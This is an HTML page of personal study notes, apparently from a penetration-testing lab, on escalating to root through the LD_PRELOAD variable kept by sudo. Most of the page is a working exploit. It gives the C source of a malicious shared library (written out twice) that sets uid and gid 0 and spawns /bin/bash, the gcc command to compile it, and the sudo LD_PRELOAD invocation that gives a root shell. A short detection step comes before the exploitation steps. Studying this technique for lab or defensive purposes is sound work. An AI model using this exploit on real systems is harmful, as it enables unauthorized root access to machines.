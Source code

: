 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>LD_PRELOAD</title>
</head><body>Escilation via LD_PRELOAD<br/>
<br/>
hard.<br/>
<br/>
start with sudo -l and look for an environemtn variable<br/>
<br/>
&quot;env_keep+=LD_PRELOAD<br/>
<br/>
<img src="image.png"/><br/>
<br/>
also know as preloading. This is preloading a user specifi share library before any other library<br/>
We are laoding our lubrary before others.<br/>
expoiteded by creating a malicious library and loading that before others can load.<br/>
<br/>
write a malicious C code.<br/>
<br/>
<b>#include &lt;stdio.h&gt;<br/>
#include &lt;sys/types.h&gt;<br/>
#include &lt;stdlib.h&gt;<br/>
<br/>
void _init() {<br/>
    unsetenv(&quot;LD_PRELOAD&quot;);<br/>
    setgid(0);<br/>
    setuid(0);<br/>
    system(&quot;/bin/bash&quot;);<br/>
</b><b>}</b><br/>
<br/>
setguid and uid 0 = 0 is root<br/>
<br/>
<br/>
compile the code<br/>
<br/>
<b>gcc -fPIC -shared -o shell.so shell.c -nostartfiles<br/>
<br/>
</b>to run we set the LD_PRELAOD to this code, then run agains anytuhing we can run as root.<b><br/>
</b><b><br/>
</b><img src="image 2.png"/><br/>
<br/>
<br/>
<img src="image 3.png"/>exit<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: sudo -l<br/>
2. From the output, notice that the LD_PRELOAD environment variable is intact.<br/>
<br/>
Exploitation<br/>
<br/>
1. Open a text editor and type:<br/>
<br/>
#include &lt;stdio.h&gt;<br/>
#include &lt;sys/types.h&gt;<br/>
#include &lt;stdlib.h&gt;<br/>
<br/>
void _init() {<br/>
  unsetenv(&quot;LD_PRELOAD&quot;);<br/>
  setgid(0);<br/>
  setuid(0);<br/>
  system(&quot;/bin/bash&quot;);<br/>
}<br/>
<br/>
2. Save the file as x.c<br/>
3. In command prompt type:<br/>
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles<br/>
4. In command prompt type:<br/>
sudo LD_PRELOAD=/tmp/x.so apache2<br/>
5. In command prompt type: id<br/>
</body></html>